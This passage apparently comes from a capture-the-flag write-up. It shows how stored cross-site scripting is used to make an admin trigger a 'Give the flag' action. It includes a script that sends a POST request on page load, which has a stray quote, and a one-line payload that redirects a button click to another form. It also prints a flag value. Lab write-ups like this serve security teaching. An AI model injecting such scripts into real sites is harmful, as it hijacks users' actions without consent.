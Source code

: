 ```html
<script type="text/javascript">
        window.onload = function () {
                var Ajax=null;
                
		        //Current URL can be sent via POST
                var sendurl= window.location.href";

                //Create and send Ajax request to add friend
                Ajax=new XMLHttpRequest();
                Ajax.open("POST", sendurl, true);
                Ajax.send();
        }
</script>
```

<img src="./images/10/22.png">

Turns out this actually works, and we got presented with the flag (flag{cc4b37d6a3dc659d16c8e714a21b41eb}).

<img src="./images/10/23.png">

But we knew this wasn't the only method there was to get the flag. <br>
Since it's stated that the admin always clicks the "Mark request as read" button, we wanted to try and make it so that this button, instead of submiting it's own form, would submit the "Give the flag" form. <br>
This is very easily done with some basic javascript knowledge: all we have to do is change the onclick function of this button and make it click the other button, submiting the other form. To make sure the "Mark request as read" form is not submited, we disable the submit feature of this button by returning false on it's onclick function.

 ```html
<script>document.getElementById('markAsRead').onclick=function() {document.getElementById('giveflag').click(); return false;}</script>
 ```

<img src="./images/10/24.png">
